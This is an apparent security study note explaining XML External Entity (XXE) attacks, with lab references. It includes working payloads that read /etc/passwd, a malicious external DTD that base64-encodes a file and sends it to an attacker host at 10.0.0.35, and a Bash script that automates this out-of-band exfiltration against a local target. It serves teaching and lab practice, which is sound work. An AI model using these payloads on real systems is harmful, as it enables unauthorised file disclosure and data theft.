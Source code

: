 - **tags:** #top10 #XXE
-----------------------------
# XML External Entity
## Entities
Short answer: fancy word for XML variables.
On an XML document we define *entities* to allow refactoring of variables and reduce repetitive data. This can be done with the use of the `ENTITY` keyword, which is followed by the entity name and its value, as follows:
There are **three** types of **entities**:
- *Custom*
- *External*
- *Predefined* (`&lt;`, `&gt;`, used to avoid any kind of conflict with the XML tags).
### Custom Entities
Once we define an entity, it can be referenced in an XML document between an ampersand `&` and a semi-colon `;` (e.g. `&email;`). Whenever an entity is referenced, it will be replaced with its value by the XML parser.
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY email "test@gmail.com">]>
<root>
	<name>
		test
	</name>
	<tel>
		123456789
	</tel>
	<email>
		&email;
	</email>
	<password>
		test12345
	</password>
</root>
```
**Note:** Before declaring our entity we are creating beforehand a *DTD* (this concept is explained later on [[XXE#External Entities|External Entities]]) named foo. 
![[XXE1.png]]
### External Entities 
More interestingly, we can *reference* *External* XML *Entities* with the `SYSTEM` keyword, which is followed by the external entity's path. We can either point to a file from the server itself.
```XML
<!DOCTYPE foo [<!ENTITY myFile SYSTEM 'file:///etc/passwd'>]>
```
![[XXE2.png]]
Or we could point it to our very trustworthy server :)
![[XXE4.png]]
### Error Based
If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.
![[XXE7.png]]
![[XXE6.png]]
Baiscally you concatenate the file you want to display (`/flag.php`) with a non existent entity, so an error occurs disclosing the content of the desired document.
### XXE Out-of-Band (BLIND)
Now we are going to make use of an external XML *DTDs* (Document Type Definition). *DTDs* allow the validation of an XML document against a pre-defined document structure. However, we may also use *DTD* to define other custom entries. 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxeoob SYSTEM "http://10.0.0.35/malicious.dtd"> %xxeoob]>
<root>
	<name>
		test
	</name>
	<tel>
		123456789
	</tel>
	<email>
		&email;
	</email>
	<password>
		test12345
	</password>
</root>
```

```XML
<!--malicious.dtd-->
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://10.0.0.35:80/?file=%file;'>">
%eval;
%exfil;
```
**Note:** We are using `PHP` [[wrappers]] to *base64* encode the file content and send it on the *GET* url request. Also checkout how the hex representation of *%* (*&#x25;*).
![[XXE5.png]]
### Scripting in Bash
We can try to automate the previous process with a little bit of bash scripting:
```bash
#!/bin/bash

echo -ne "[+] Introduce el archivo a leer: " && read -r myFilename

malicious_dtd="""
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$myFilename\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://10.0.0.35:80/?file=%file;'>\">
%eval;
%exfil;"""

echo $malicious_dtd > malicious.dtd

python3 -m http.server 80 &>response &

sleep 1

PID=$!

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>               
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.0.0.35/malicious.dtd">%xxe;]>
<root><name>test</name><tel>123456789</tel><email>test</email><password>test12345</password></root>' &>/dev/null

kill -9 $PID 
wait $PID 2>/dev/null

results=$(cat response | grep -oP "/?file=\K[^.*\s]+")
echo -e "\n[+] File content:\n"
echo -n $results | base64 -d; echo

rm response malicious.dtd &>/dev/null
```
### Resource Labs:
- [XXE lab](https://github.com/jbarone/xxelab)
- [NodeBlog HTB](https://app.hackthebox.com/machines/430)